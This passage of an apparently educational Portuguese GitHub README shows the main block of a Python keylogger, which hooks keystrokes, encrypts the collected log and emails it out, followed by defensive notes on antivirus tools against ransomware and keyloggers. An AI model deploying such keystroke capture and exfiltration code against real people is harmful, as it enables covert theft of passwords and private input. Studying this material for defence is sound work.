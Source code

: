 
### 🚀 Parte 7: Execução principal do programa

```python
if __name__ == "__main__":
    gerar_chave()  # Garante que a chave de criptografia esteja disponível

    # Inicia uma thread em segundo plano para gravar o buffer periodicamente
    threading.Thread(target=gravar_buffer, daemon=True).start()

    # Inicia a escuta de teclas pressionadas
    keyboard.on_press(capturar_tecla)

    try:
        keyboard.wait()  # Mantém o programa rodando até ser interrompido manualmente
    except KeyboardInterrupt:
        pass  # Permite encerrar com Ctrl+C sem erro

    # Após encerramento, criptografa o log e envia por e-mail
    criptografar_log()
    enviar_email()
```

## 📚 Aprendizados | A Importância da Cibersegurança e da Educação Digital

A crescente digitalização da vida pessoal e profissional tornou a cibersegurança uma prioridade inegociável. A educação digital, por sua vez, capacita usuários a reconhecerem ameaças e adotarem comportamentos seguros. Ransomwares e keyloggers são dois exemplos de ameaças que exploram vulnerabilidades técnicas e humanas, combatê-los exige uma abordagem multifacetada.


### 🧪 Antivírus e Antimalware

**Função:**  
São ferramentas essenciais que detectam, bloqueiam e removem softwares maliciosos, incluindo ransomwares e keyloggers.

**Contra Ransomware:**  
- Identificam padrões de comportamento suspeitos, como criptografia em massa de arquivos.
- Impedem a execução de scripts maliciosos que tentam se espalhar pela rede.

**Contra Keyloggers:**  
- Detectam tentativas de captura de teclado ou injeção de código em processos legítimos.
- Muitos antivírus modernos utilizam heurísticas e inteligência artificial para identificar keyloggers mesmo que estejam disfarçados.

**Reflexão:**  
Ter um antivírus atualizado é como ter um guarda na porta digital do seu sistema. No entanto, ele não é infalível. Por isso, deve ser parte de uma estratégia maior.


### 🔥 Firewalls
